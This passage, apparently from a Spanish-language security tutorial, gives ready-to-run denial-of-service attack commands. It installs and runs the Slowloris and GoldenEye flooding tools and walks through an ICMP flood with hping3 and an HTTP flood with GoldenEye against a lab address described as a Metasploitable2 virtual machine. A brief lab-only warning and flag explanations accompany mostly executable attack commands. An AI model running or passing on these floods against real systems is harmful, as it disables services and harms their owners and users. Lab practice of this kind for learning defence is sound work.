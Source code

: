 ##### Instalar Slowloris:

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <IP>
```

##### Instalar GoldenEye:

```bash
git clone https://github.com/jseidl/GoldenEye.git
cd GoldenEye
python3 goldeneye.py <URL>
```

> Nota: Puedes instalar `git` y `python3` si no los tienes:

```bash
sudo apt install git python3
```

---

### 🧪 EJEMPLO COMPLETO: Ataque DoS ICMP Flood con `hping3`

#### ⚠️ Solo en laboratorio, por ejemplo, contra una máquina virtual **Metasploitable2**

#### 1. Verifica IP de la víctima:

En la terminal:

```bash
ping 192.168.56.103
```

#### 2. Ejecuta el ataque ICMP Flood:

```bash
sudo hping3 --icmp -d 120 -C 8 -i u1000 192.168.56.103
```

##### ¿Qué hace este comando?

- `--icmp`: usa protocolo ICMP (como ping)
- `-d 120`: tamaño del paquete en bytes
- `-C 8`: código del mensaje ICMP
- `-i u1000`: intervalo de envío (cada 1000 microsegundos = 1 ms)
- `192.168.56.103`: IP del objetivo

🔍 Resultado: La víctima tendrá un alto uso de red y podría volverse inestable o no responder.

---

### 🧪 OTRO EJEMPLO: HTTP Flood con GoldenEye

```bash
cd GoldenEye
python3 goldeneye.py http://192.168.56.103 -w 10 -s 200
```
